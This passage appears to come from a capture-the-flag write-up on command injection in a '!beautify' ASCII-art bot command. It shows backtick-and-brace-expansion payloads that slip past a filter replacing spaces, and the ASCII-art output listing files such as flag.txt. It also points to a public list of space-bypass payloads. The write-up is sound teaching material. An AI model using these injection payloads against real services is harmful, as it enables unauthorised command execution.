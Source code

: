 Let's validate our theory. ``!beautify "\'`echo a`\'"`` outputs the same thing as the previous `ls`.

```bash
!beautify "\'`{echo,a}`\'"
```

```
__       __     
\ \      \ \    
 \ \   __ \ \   
  \ \ / _` \ \  
   \ \ (_| |\ \ 
    \_\__,_| \_\
```

The space **is** the problem. The reason that you cannot guess is that spaces are replaced by no-break spaces.

You can easily find this payload on the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space) Github.

### Final difficulty

```bash
!beautify "\'`{ls,-a}`\'"
```

```
__                  __ _              _        _   
\ \                / _| |            | |      | |  
 \ \              | |_| | __ _  __ _ | |___  _| |_ 
  \ \             |  _| |/ _` |/ _` || __\ \/ / __|
   \ \ _   _ _   _| | | | (_| | (_| || |_ >  <| |_ 
    \_(_) (_|_) (_)_| |_|\__,_|\__, (_)__/_/\_\\__|
                                __/ |              
                               |___/               
 _____             _              __ _ _      
|  __ \           | |            / _(_) |     
| |  | | ___   ___| | _____ _ __| |_ _| | ___ 
| |  | |/ _ \ / __| |/ / _ \ '__|  _| | |/ _ \
| |__| | (_) | (__|   <  __/ |  | | | | |  __/
|_____/ \___/ \___|_|\_\___|_|  |_| |_|_|\___|


      _           _ _               
     | |         | | |              
  ___| |__   __ _| | |  _ __  _   _ 
 / __| '_ \ / _` | | | | '_ \| | | |
| (__| | | | (_| | | |_| |_) | |_| |
 \___|_| |_|\__,_|_|_(_) .__/ \__, |
                       | |     __/ |
                       |_|    |___/ 
                      _                               _        _        _   
                     (_)                             | |      | |      | |  
 _ __ ___  __ _ _   _ _ _ __ ___ _ __ ___   ___ _ __ | |_ ___ | |___  _| |_ 
| '__/ _ \/ _` | | | | | '__/ _ \ '_ ` _ \ / _ \ '_ \| __/ __|| __\ \/ / __|
| | |  __/ (_| | |_| | | | |  __/ | | | | |  __/ | | | |_\__ \| |_ >  <| |_ 
|_|  \___|\__, |\__,_|_|_|  \___|_| |_| |_|\___|_| |_|\__|___(_)__/_/\_\\__|
             | |                                                            
             |_|                                                            
__     
\ \    
 \ \   
  \ \  
   \ \ 
    \_\
```